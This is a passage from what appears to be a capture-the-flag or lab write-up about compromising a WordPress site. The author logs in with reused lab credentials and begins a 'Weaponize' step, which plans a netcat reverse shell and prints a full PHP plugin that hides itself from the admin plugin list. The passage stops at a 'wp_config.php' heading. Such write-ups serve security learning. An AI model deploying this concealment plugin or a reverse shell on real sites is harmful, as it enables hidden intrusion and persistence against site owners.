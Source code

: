 
![WordPress landing page](https://cdn.hashnode.com/res/hashnode/image/upload/v1623251101474/unPjJjvzE.png)

## `/wp-login.php`

I'm trying the known so far usernames and password from the previous boxes: `admin/P@s5w0rd!` lets me in.

It looks just like basic WP installation without internet access (errors from update feature and no plugin store). 

[Back to top](#contents) ⤴

# Weaponize

To get access to the web server I'm going to upload a payload with `netcat` binary and PHP file that establish reverse shell to my host.

### pshield_plugin.php

> This code hides plugin on the admin panel so it won't be easy tracked by other hackers

```php
<?php
    /*
   Plugin Name: It's Not A Reverse Shell Plugin
   Plugin URI: https://blog.cyberethical.me/
   description: A plugin that definitely is not creating a revershe shell.
   Version: 1.0
   Author: Asentinn
   Author URI: https://blog.cyberethical.me/
   License: MIT
   */

   function plugin_hide_pshield() {
    global $wp_list_table;
    $hidearr = array('pshield_plugin/pshield_plugin.php');
    $myplugins = $wp_list_table->items;
    foreach ($myplugins as $key => $val) {
      if (in_array($key,$hidearr)) {
        unset($wp_list_table->items[$key]);
      }
    }
  }

  remove_action('pre_current_active_plugins', 'plugin_hide_pshield');
  add_action('pre_current_active_plugins', 'plugin_hide_pshield');
?>
```

### wp_config.php
